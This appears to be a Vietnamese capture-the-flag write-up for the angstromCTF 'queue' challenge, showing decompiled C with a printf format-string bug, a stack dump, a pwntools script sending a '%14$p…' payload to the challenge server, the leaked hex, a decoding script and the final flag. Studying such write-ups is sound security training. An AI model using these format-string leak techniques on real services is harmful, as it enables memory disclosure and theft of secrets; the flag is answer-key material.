

# angstromCTF - queue

```c
int main(int argc, const char **argv, const char **envp)
{
  __gid_t rgid;
  FILE *stream;
  char format[48];
  char s[136];
  unsigned __int64 cannary;

  cannary = __readfsqword(0x28u);
  setbuf(_bss_start, 0LL);
  rgid = getegid();
  setresgid(rgid, rgid, rgid);
  stream = fopen("flag.txt", "r");
  if ( !stream )
  {
    puts("Error: missing flag.txt.");
    exit(1);
  }
  fgets(s, 128, stream);
  printf("What did you learn in class today? ");
  fgets(format, 48, stdin);
  printf("Oh nice, ");
  printf(format);                               // format string
  printf("sounds pretty cool!");
  return cannary - __readfsqword(0x28u);
}
```
Chall này chỉ đơn giản là chương trình sẽ đọc flag từ trong file rồi lưu ở trong stack, và chúng ta có lỗi format string ở đây. Ta sẽ lợi dụng lỗi này để đọc flag từ stack.

```java
gef➤  tel
0x00007fffffffded0│+0x0000: 0x000003e800000000   ← $rsp
0x00007fffffffded8│+0x0008: 0x000055555555a2a0  →  0x00000000fbad2488
0x00007fffffffdee0│+0x0010: 0x0000000000000000
0x00007fffffffdee8│+0x0018: 0x0000000000000000
0x00007fffffffdef0│+0x0020: 0x0000000000000000
0x00007fffffffdef8│+0x0028: 0x0000000000000000
0x00007fffffffdf00│+0x0030: 0x0000000000000000
0x00007fffffffdf08│+0x0038: 0x0000000000000000
0x00007fffffffdf10│+0x0040: "{this is flagggggggggggggggggggggggggggggggggggggg[...]"
0x00007fffffffdf18│+0x0048: " flagggggggggggggggggggggggggggggggggggggggggg}\n"
gef➤
0x00007fffffffdf20│+0x0050: "gggggggggggggggggggggggggggggggggggggg}\n"
0x00007fffffffdf28│+0x0058: "gggggggggggggggggggggggggggggg}\n"
0x00007fffffffdf30│+0x0060: "gggggggggggggggggggggg}\n"
0x00007fffffffdf38│+0x0068: "gggggggggggggg}\n"
0x00007fffffffdf40│+0x0070: "gggggg}\n"
0x00007fffffffdf48│+0x0078: 0x00007ffff7fe2800  →   (bad)
0x00007fffffffdf50│+0x0080: 0x00000000000006f0
0x00007fffffffdf58│+0x0088: 0x00007fffffffe309  →  0x821549b5d9030d68
0x00007fffffffdf60│+0x0090: 0x00007ffff7fc1000  →  0x00010102464c457f
0x00007fffffffdf68│+0x0098: 0x0000010101000000
```
flag của ta sẽ nằm ở % thứ 14 (cái kia là flag mình tạo để debug thôi), và để cho chắc thì cứ pad từ % thứ 14 trở đi =)). Phía dưới là payload mình sử dụng

```python
#!/usr/bin/env python3

from pwn import *

context.binary = exe = ELF("./queue_patched")
libc = ELF("./libc.so.6")

def conn():
    if args.LOCAL:
        r = process([exe.path])
    else:
        r = remote('challs.actf.co', 31322)
    return r

def main():
    r = conn()
    r. sendlineafter(b'? ', b'%14$p %15$p %16$p %17$p %18$p %19$p %20$p %21$p')
    r.interactive()

if __name__ == "__main__":
    main()

```
Sau khi remote đến server ta sẽ được một chuỗi hex như thế này:

```java
[DEBUG] Received 0x9 bytes:
    b'Oh nice, '
Oh nice, [DEBUG] Received 0x83 bytes:
    b'0x3474737b66746361 0x75715f74695f6b63 0x615f74695f657565 0x3437396461393136 0x7d32326234363863 (nil) (nil) (nil)sounds pretty cool!'
0x3474737b66746361 0x75715f74695f6b63 0x615f74695f657565 0x3437396461393136 0x7d32326234363863 (nil) (nil) (nil)sounds pretty cool!
```
Đến đoạn này thì mình cần chuyển đống hex hày về dạng bản rõ. Do nó đang ở dạng little endian nên ta sẽ phải có thêm một đoạn chương trình nhằm chuyển về big endian mới có thể encode ra được
```python
str = input()
strList = str.split(" 0x")
result = ''
for i in range(len(strList)):
    while(len(strList[i])<16):
        strList[i] = '0' + strList[i]
    result += strList[i][14:] + strList[i][12:14] + \
        strList[i][10:12] + strList[i][8:10] + strList[i][6:8] + strList[i][4:6] + strList[i][2:4] + strList[i][:2]

print(result)
```
Xóa các `(nil)` đi rồi paste vào ta sẽ được 1 đống bầy nhầy kiểu : `616374667b737434636b5f69745f71756575655f69745f61363139616439373463 3836346232327d`. Việc cuối cùng là lên mạng kiếm cái tool chuyển hex thành string (hoặc có thể tự code nhưng mình lười vđ =)))



`flag: actf{st4ck_it_queue_it_a619ad974c864b22}`
